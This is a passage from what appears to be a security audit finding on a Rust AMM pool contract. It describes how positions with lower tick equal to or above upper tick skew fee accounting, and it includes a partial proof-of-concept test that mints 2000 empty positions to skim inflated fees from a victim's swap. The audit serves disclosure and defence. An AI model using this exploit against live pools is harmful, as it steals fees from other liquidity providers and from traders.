 ```rust
239 |             sqrt_price_math::get_amount_1_delta(
240 |                 tick_math::get_sqrt_ratio_at_tick(lower)?,
241 |                 tick_math::get_sqrt_ratio_at_tick(upper)?,
242 |                 delta,
243 |             )?,
244 |         )
245 |     };
```

While the attacker cannot directly profit by closing the position, these positions affect fee calculations. For example, in the provided PoC, the attacker can create a large number of empty positions within their liquidity range to collect significant fees from swapping users, inflating what would normally be a fee of 6 to 1605.

2. **Case when `lower > upper`:** Unlike the previous case, when `lower > upper` it is possible to create a position with both liquidity and balance. However, the potential issue arises when calling the `get_fee_growth_inside` function to calculate fees. This function also assumes `lower < upper` in its calculations, and passing `lower > upper` results in incorrect fee calculations, allowing the attacker to steal fees from other liquidity providers. However, the current implementation of `get_fee_growth_inside` has a bug where it does not correctly handle overflow as per the Uniswap V3 specification, rendering this exploit temporarily unusable.

### Proof of Concept

```rust
#[test]
fn lower_upper_eq_poc() {
    test_utils::with_storage::<_, Pools, _>(
        Some(address!("3f1Eae7D46d88F08fc2F8ed27FCb2AB183EB2d0E").into_array()), // sender
        None,
        None,
        None,
        |contract| -> Result<(), Vec<u8>> {
            let token0 = address!("9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0");
            contract.ctor(msg::sender(), Address::ZERO, Address::ZERO)?;
            contract.create_pool_D650_E2_D0(
                token0,
                U256::from_limbs([0, 42942782960, 0, 0]), 
                500,                                      // fee
                10,                                       // tick spacing
                u128::MAX,
            )?;
            contract.enable_pool_579_D_A658(token0, true)?;
            contract.mint_position_B_C5_B086_D(token0, 30000, 50000)?; // Init a normal position
            println!("Create normal position: {:?}", contract.update_position_C_7_F_1_F_740(token0, U256::from(0), 50000).unwrap()); 

            println!("Tick before swap {}", contract.cur_tick181_C6_F_D9(token0).unwrap());
            // Create 500 malicious empty positions
            for i in 0..2000 {
                contract.mint_position_B_C5_B086_D(token0, 30000+i*10, 30000+i*10)?;
                let (amount0, amount1) = contract.update_position_C_7_F_1_F_740(token0, U256::from(1+i), 100000000000).unwrap();
                assert!(amount0 == I256::ZERO && amount1 == I256::ZERO); // Attacker don't need any token
            }
            println!("Victim swap: {:?}", contract.swap_904369_B_E(
                token0,
                true,
                I256::try_from(10000_i32).unwrap(),
                U256::MAX,
            ).unwrap());
            println!("Tick after swap {}", contract.cur_tick181_C6_F_D9(token0).unwrap());
```
